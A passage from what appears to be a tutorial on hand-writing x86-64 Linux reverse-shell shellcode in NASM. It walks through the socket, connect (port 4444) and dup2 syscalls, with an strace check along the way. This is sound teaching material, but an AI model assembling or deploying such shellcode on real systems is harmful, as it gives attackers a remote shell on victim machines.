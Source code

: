 ```js
	mov rdx, rdi
	add rdi, 2
	xor rsi, rsi
	add rsi, 1

	xor rax, rax
	add rax, 41
	syscall

	;save the fd for other syscalls
	mov rdi, rax
	xor rax, rax
```

You can also make a simple test at this point to know if your assembly code is written correctly or not, by using the strace tool. You should see AF_INET, SOCK_STREAM and IPPROTO_IP as arguments and a non-negative file descriptor number after the equal sign.

```js
$ nasm -felf64 reverse.nasm -o reverse.o
$ ld reverse.o -o reverse
$ strace ./reverse
execve("./reverse", ["./reverse"], 0x7ffd29c78350 /* 63 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```

Moving on to the `connect()` syscall. As described already in the bind shellcode post, struct members are layed out in memory contiguously, first member on the lowest and last member on the highest address. This is also the reason why we are pushing the 8 zero bytes to the stack first, 2 bytes for AF_INET the last and then adjust the stack pointer with `sub rsp, 8` to point to the beginning of that structure in memory. By doing this we will have the start address of the structure in RSP which we can simply move to RSI for our 2nd argument. We already learned previously that RDX here will hold the size of our structure, which is 16 bytes (`mov rdx, 16`).

```js

server_struct:
	push rax                         ;bzero(&server.sin_zero, 8)
	mov dword [rsp-4], eax           ;server.sin_addr.s_addr=IN_ADDR_ANY 4 bytes
	mov word [rsp-6], 0x5c11         ;server.sin_port= 4444 (0x115c) 2 bytes
	mov word [rsp-8], 0x2            ;server.sin_family=AF_INET, 2bytes
	sub rsp, 8                       ;adjusting the stack pointer to point to the start of the struct

connect:
	;connect(sockfd, (struct sockaddr *)&server, sizeof(server));
	mov rsi, rsp
	mov rdx, 16
	add rax, 42
	syscall

duplicate_sockets:
	;dup2(old,new)
	xor rsi, rsi
	xor rax, rax
	mov al, 33
	syscall

	mov sil, 1
	mov al, 33
	syscall

	mov sil, 2
	mov al, 33
	syscall
```